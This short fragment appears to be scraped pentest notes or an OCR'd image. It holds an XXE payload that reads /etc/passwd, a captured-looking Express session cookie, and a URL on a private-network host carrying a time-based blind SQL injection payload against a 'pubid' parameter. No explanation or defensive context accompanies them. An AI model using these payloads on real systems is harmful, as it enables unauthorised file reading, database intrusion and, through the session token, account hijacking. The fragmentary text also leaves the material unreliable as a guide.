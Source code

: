 
XXE


`<?xml version="1.0"?>   <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>   <root>&read;</root>` 

connect.sid=s%3A6fMOWXjlDS-aJ0wBC5dvKseZFV6CIArp.vNS%2BHw5Z0zGE5ENYhMh1Bk0inbFSWIk6BqpUhpMAjgg








http://192.168.196.83:80/ebook/bookPerPub.php?pubid=' AND (SELECT 6293 FROM (SELECT(SLEEP(5)))eqTh)-- CJmT